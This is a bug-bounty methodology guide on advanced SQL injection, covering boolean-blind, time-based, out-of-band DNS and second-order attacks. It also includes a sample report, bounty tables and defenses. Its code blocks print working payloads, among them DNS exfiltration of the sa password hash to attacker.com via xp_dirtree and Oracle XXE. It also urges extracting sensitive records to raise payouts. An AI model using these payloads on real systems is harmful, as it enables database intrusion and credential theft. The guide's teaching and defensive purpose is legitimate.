

# Advanced SQL Injection (SQLi)

## When to Use
- When basic error-based or UNION-based SQL payloads (`' OR 1=1--`) are filtered or fail to return visible results.
- When attacking modern frameworks where data is stored now but executed in a different query later (Second-Order SQLi).
- To exfiltrate data from heavily firewalled environments via DNS using Out-of-Band (OOB) techniques.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Boolean-Based Blind SQLi

```sql
-- Concept: The application returns NO database errors, and NO queried data. 
-- However, it returns a slightly different HTTP response (e.g., "User exists" vs "User does not exist") 
-- depending on if a trailing SQL condition is TRUE or FALSE.

-- 1. Identify the difference:
-- Payload True: `id=1' AND 1=1--` -> Returns HTTP 200 OK (Content length 500)
-- Payload False: `id=1' AND 1=0--` -> Returns HTTP 404 (Content length 200)

-- 2. Extract data one character at a time (Binary Search / Fuzzing):
-- "Is the first letter of the database name 'a'?"
id=1' AND SUBSTRING(database(),1,1)='a'--

-- Using ASCII conversion to easily script greater/less than checks:
-- "Is the first letter's ASCII value > 100?"
id=1' AND ASCII(SUBSTRING(database(),1,1)) > 100--
-- If the page loads normally (HTTP 200), the answer is YES. If 404, the answer is NO.
```

### Phase 2: Time-Based Blind SQLi

```sql
-- Concept: The application is COMPLETELY blind. It always returns the exact same HTML, 
-- regardless of True or False statements. We force the database to PAUSE execution if a statement is True.

-- 1. PostgreSQL Time Delay Payload:
id=1'; SELECT pg_sleep(10)--
-- If the server takes exactly 10 seconds to respond, it is vulnerable to SQL injection.

-- 2. Extracting data via Time (MySQL example):
-- "If the first letter of the DB is 'A', sleep for 5 seconds. Otherwise, return immediately."
id=1' AND IF(ASCII(SUBSTRING(database(),1,1))=65, SLEEP(5), 0)--

-- Warning: Time-based SQLi is extremely slow and can cause Denial of Service (DoS) 
-- if sleep commands pile up on high-traffic pages. Use carefully.
```

### Phase 3: Out-of-Band (OOB) SQLi via DNS

```sql
-- Concept: The application is blind and asynchronous (time delays don't work or are unreliable).
-- We force the database server itself to make a DNS request to an attacker-controlled server, 
-- placing the stolen data directly inside the subdomain of the DNS query.

-- Prerequisites: Obtain a Burp Collaborator payload or use interactions.sh (e.g., `attacker.com`).

-- 1. MSSQL (Uses xp_dirtree or master..xp_fileexist to initiate SMB/DNS requests):
-- We concatenate the DBA password hash into the URL.
EXEC master..xp_dirtree '\\' + (SELECT master.dbo.fn_varbintohexstr(password_hash) FROM sys.sql_logins WHERE name='sa') + '.attacker.com\a'

-- 2. Oracle (Uses UTL_HTTP or UTL_INADDR):
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT user FROM dual)||'.attacker.com/"> %remote;]>'),'/l') FROM dual;

-- The attacker checks their DNS logs and sees a lookup for: 
-- `0x01004086CEB611.attacker.com`. The prefix is the stolen SQL Server password hash.
```

### Phase 4: Second-Order SQLi

```sql
-- Concept: The application securely sanitizes input (e.g., escaping quotes) when WRITING to the DB.
-- However, when the application later READS that data from the DB to build a new query, it trusts it blindly.

-- 1. Injection (Registration Page - Parameterized/Escaped correctly):
-- Username: `admin'--`
-- The backend registers the user. The DB safely holds the literal string: `admin'--`

-- 2. Execution (Password Reset Page - Vulnerable):
-- The user initiates a password reset for their own account (`admin'--`).
-- The backend builds a query assuming DB data is safe: 
-- `UPDATE users SET password='NewPassword' WHERE username='admin'--'`
-- The trailing `--` comments out any safety checks (e.g., `AND tenant_id=5`), resulting in the attacker changing the REAL `admin`'s password.
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Identify Injection Vector] --> B{Does app return DB errors?}
    B -->|Yes| C[Use Error-Based SQLi (e.g., `EXTRACTVALUE`)]
    B -->|No| D{Does app return data from the query?}
    D -->|Yes| E[Use UNION-Based SQLi]
    D -->|No| F{Does HTTP response change on True/False?}
    F -->|Yes| G[Use Boolean-Based Blind SQLi]
    F -->|No| H{Is the server heavily firewalled preventing Outbound?}
    H -->|Yes| I[Use Time-Based Blind SQLi `SLEEP()`]
    H -->|No| J[Use OOB DNS Exfiltration for speed]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Parameterized Queries (Prepared Statements)**: The absolute eradication of SQL Injection. Never concatenate user input into SQL syntax Strings. Use parameterized queries (e.g., `PreparedStatement` in Java, PDO in PHP) where the database driver strictly casts variables as strings or integers, preventing them from ever being parsed as executable SQL commands.
- **ORM Strict Usage**: Object-Relational Mappers (Hibernate, EntityFramework, Prisma) naturally prevent most SQL Injection. However, developers must be audited to ensure they do not bypass the ORM to execute raw queries (`.RawQuery()`) manually with concatenated strings.
- **Egress Filtering**: To mitigate Out-of-Band (OOB) SQLi, block all outbound DNS and HTTP requests from the Database Server subnet. Database servers should never be permitted to resolve external internet domains.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Blind SQLi | An attack where the database does not output data to the web page. The attacker must reconstruct the database by asking True/False questions (Boolean) or observing server response times (Time-Based) |
| WAF Evasion | Bypassing Web Application Firewalls using specific encoding, alternative SQL syntax (e.g., replacing spaces with `/**/`), or HTTP Parameter Pollution |
| SQLmap | An open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers |

## Output Format
```
Bug Bounty Report: Time-Based Blind SQLi resulting in DB Dump
=============================================================
Vulnerability: Blind SQL Injection (OWASP A03:2021)
Severity: Critical (CVSS 9.8)
Target: `https://api.company.com/v1/user/search`

Description:
The searching endpoint is vulnerable to Time-Based Blind SQL Injection via the `sort_by` parameter. While standard UNION and Error-based payloads returned generic 500 errors, confirming an anomaly, the injection was confirmed by forcing the PostgreSQL engine to execute a `pg_sleep()` command.

By utilizing a binary search algorithm mapping character ASCII values to sleep conditions, an attacker can extract every table, column, and data row within the database framework without ever triggering a visible error or anomaly on the front end.

Reproduction Steps:
1. Issue a standard HTTP GET request:
   `GET /v1/user/search?sort_by=name` (Response: 100ms)
2. Inject a 5-second sleep payload:
   `GET /v1/user/search?sort_by=name';SELECT pg_sleep(5)--`
3. Observe the server response time precisely matches the injected delay (Response: 5120ms).
4. Extract the first character of the database user mapping to '5':
   `GET /v1/user/search?sort_by=name';SELECT CASE WHEN (ASCII(SUBSTRING(user,1,1))=53) THEN pg_sleep(5) ELSE pg_sleep(0) END--`

Impact:
Total compromise of Data Confidentiality. The entirety of the application's underlying database, including hashed credentials and PII, can be mapped and extracted by an unauthenticated attacker.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (SQL Injection)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Security Company (HackerOne)** | $6,400 | (Undisclosed) | Critical SQLi on cloud subdomain — full query manipulation | 2023 |
| **Django (IBB)** | $4,263 | (Undisclosed) | CVE-2024-53908: SQLi in `HasKey` lookup on Oracle databases | 2024 |
| **Django (IBB)** | $4,263 | (Undisclosed) | CVE-2024-42005: SQLi in `QuerySet.values()` with JSONField column aliases | 2024 |
| **HackerOne avg** | ~$1,074 | (Estimated ~1,213 reports in 2025) | Various SQLi techniques across all programs | 2025 |

**Key Lesson**: Django framework-level SQLi bugs (CVE-2024-53908, CVE-2024-42005) prove that
even "secure" frameworks have injection points — especially in ORM edge cases like `HasKey` 
lookups on Oracle or `JSONField` column aliases. These are NOT generic `' OR 1=1--` payloads.

**What separates $6.4K from $500:**
- $6.4K: Demonstrated full data extraction, showed the schema, proved RCE path
- $500: Boolean-based blind SQLi with no data extraction demonstrated
- **Always extract at least one sensitive record and show the exploitation path**

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- OWASP: [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
- PayloadsAllTheThings: [SQL Injection Methods](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
